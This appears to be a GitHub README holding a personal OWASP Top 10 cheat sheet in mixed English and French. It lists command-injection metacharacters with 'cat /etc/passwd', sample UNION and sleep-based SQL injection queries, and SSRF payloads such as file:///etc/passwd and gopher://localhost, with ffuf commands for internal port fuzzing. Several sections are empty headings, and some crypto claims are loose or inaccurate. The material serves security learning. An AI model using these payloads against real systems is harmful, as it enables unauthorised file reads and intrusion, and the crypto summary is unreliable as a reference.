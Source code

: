 # Top-10-OWASP-CHEATSHEET
Important site recap [cheatsheetseries.owasp.org](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html)
  ## *Top 1*./ Broken acces control
  - IDOR (insecure direct object reference) just modify :
  ```bash
  #change parameters post, change id, try and see the response of server 200,404,302 
  http://example.com/user/"35" or http://example.com/user/file.php?image="4",...
  ```
  ## *Top 2*./ Cryptographic failures
  - poor Cryptographic implementation, deprecied or insecure algorithm
  - PNRG (Pseudo Random Génerator Number) sometime algorithm use to generate a random number for crypto is predictably (like random in python)
  - Algorithms of simetric encryption :
  ```test
  AES 128,192,256 bits (secure, industrie standard)
  RC6 (secure, but not a industrie standard)
  DES 56bits key too small
  3DES deprecied and replace by AES
  RC4 not secure but fast
  RC5 not secure but fast
  ```
  - Algorithms of asimetric encryption :
  ```test
  RSA 1024,2048,3072,4096bits (1024 not secure)
  Diffie hellman (only use for exchange key)
  ```
  - Algorithms of hashage :
  ```test
  MD2, MD4, MD5, MD6 (not secure depricied)
  SHA-1 (not secure depricied)
  SHA-2 (224,256,384,512) secure
  SHA-3 secure
  RIPEMD (128,160,256,320) secure use in bitcoin
  bcrypt: Variable-length hash, typically 22-34 characters long, with a salt value and a work factor (iterations).
  PBKDF2: Variable-length hash, typically 32-64 characters long, with a salt value and a work factor (iterations).
  Argon2: Variable-length hash, typically 32-64 characters long, with a salt value and a work factor (iterations).
  ```
  - Algorithms of HMAC :
  ```bash
  HS256, HS384 and HS512
  ```
  ## *Top 3*./ Injection breach
Before starting to try some payload you need to understand how web application work.   
You need to enumerate:
  - All users input
  - Url parameters
  - Variable like *GET*, *POST*, *COOKIES*
  - configuration files
  - Query parameters in URL script or application
  - View source code to know the version of OS, server SQL, server web.

Analyse every error message, its a good practise for what can you do and what can't you do 
  ### Command injection
Try this basic caracters and add command like `dir` or `cat /etc/passwd`.
```text
;
|
&
&&
||
$(...)
`...`
'''
```
You can find payloads of Windows and linux with file uploads of this repositorie
  ### XSS (Cross Site Scripting)
  ### SQL Injection  
  Check in input web, url, or in request parameter if webapplication use sql 
  ```SQL
  SELECT * from artcile where id = 1 ;--(e.g: SELECT column_name from table_name where filter = 1)
  ```
  BINARY SQL Injection, if message error is false also its a good request sql
  ```SQL
  SELECT * from artcile where id = '1' UNION SELECT 1,2,3 where database() like 'sq%';--
  ```
  SLEEP SQL Injection, if request sleep 1 sec also its a good request sql
  ```SQL
  SELECT * from artcile where id = '1' UNION SELECT sleep(1),2 from information_schema.columns where table_name = 'sqli_one' and table_name = 'users' and column_name = 'id';--
  ```
  ## Top 4 non-secure application
  ## Top 5 bad configuration
  ## Top 6 composant vulnerability
  ## Top 7 authentification failure
  ## Top 8 failure integrity data
  ## Top 9 journalisation defect
  ## *Top 10*./ SSRF (Server-Side Request Forgery), SSTI (Server-Side Template Injection), SSI (Server-Side Includes)
### SSRF
Permet sur une application web (API) de faire une requete avec le server. (like preview button)
Une fois la faille SSRF découverte on peut tester de faire des requetes GEt ou POST comme :
```bash
example=http://127.0.0.1:<port>/
example=file:///etc/passwd
example=gopher://localhost/admin
```
utiliser FUFF pour le scan de port, ou scan d'endpoint 
```bash
ffuf -w nb.txt -u http://example.com/ -X POST -H "Content-type: application/x-www-form-urlencoded" -d "example=http://127.0.0.1:FUZZ/"
ffuf -w /usr/shar/wordlists/seclists/Discovery/Web-content/burp -u http://example.com/ -X POST -H "Content-type: application/x-www-form-urlencoded" -d "example=http://example.com/FUZZ.php"
```
### SSTI
Permet d'utiliser le moteur de template d'une page pour executer du code 
![Capture d'écran de mon projet](diagram.png)
